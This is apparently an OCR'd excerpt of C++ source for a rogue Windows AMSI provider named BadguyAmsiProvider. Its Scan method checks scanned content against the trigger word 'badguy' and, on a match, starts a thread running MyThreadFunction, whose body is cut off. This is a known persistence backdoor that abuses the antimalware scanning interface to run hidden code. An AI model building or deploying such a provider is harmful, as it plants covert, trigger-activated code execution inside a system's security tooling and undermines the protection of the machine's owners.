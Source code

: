 ```C++
public:
	IFACEMETHOD(Scan)(_In_ IAmsiStream * stream, _Out_ AMSI_RESULT * result) override;
	IFACEMETHOD_(void, CloseSession)(_In_ ULONGLONG session) override;
	IFACEMETHOD(DisplayName)(_Outptr_ LPWSTR * displayName) override;

private:
	LONG m_requestNumber = 0;
};


HRESULT BadguyAmsiProvider::Scan(_In_ IAmsiStream* stream, _Out_ AMSI_RESULT* result)
{
	_RtlInitUnicodeString RtlInitUnicodeString = (_RtlInitUnicodeString)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlInitUnicodeString");
	_RtlEqualUnicodeString RtlEqualUnicodeString = (_RtlEqualUnicodeString)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlEqualUnicodeString");

	UNICODE_STRING myTriggerString1;
	RtlInitUnicodeString(&myTriggerString1, L"badguy");

	UNICODE_STRING myTriggerString2;
	RtlInitUnicodeString(&myTriggerString2, L"\"badguy\"");

	UNICODE_STRING myTriggerString3;
	RtlInitUnicodeString(&myTriggerString3, L"'badguy'");

	ULONG actualSize;
	ULONGLONG contentSize;
	if (!SUCCEEDED(stream->GetAttribute(AMSI_ATTRIBUTE_CONTENT_SIZE, sizeof(ULONGLONG), reinterpret_cast<PBYTE>(&contentSize), &actualSize)) &&
		actualSize == sizeof(ULONGLONG))
	{
		*result = AMSI_RESULT_NOT_DETECTED;

		return S_OK;
	}

	PBYTE contentAddress;
	if (!SUCCEEDED(stream->GetAttribute(AMSI_ATTRIBUTE_CONTENT_ADDRESS, sizeof(PBYTE), reinterpret_cast<PBYTE>(&contentAddress), &actualSize)) &&
		actualSize == sizeof(PBYTE))
	{
		*result = AMSI_RESULT_NOT_DETECTED;

		return S_OK;
	}


	if (contentAddress)
	{
		if (contentSize < 50)
		{
			UNICODE_STRING myuni;
			myuni.Buffer = (PWSTR)contentAddress;
			myuni.Length = (USHORT)contentSize;
			myuni.MaximumLength = (USHORT)contentSize;

			if (RtlEqualUnicodeString(&myTriggerString1, &myuni, TRUE) || RtlEqualUnicodeString(&myTriggerString2, &myuni, TRUE) || RtlEqualUnicodeString(&myTriggerString3, &myuni, TRUE))
			{

				DWORD thId;
				CreateThread(NULL, 0, MyThreadFunction, NULL, 0, &thId);
```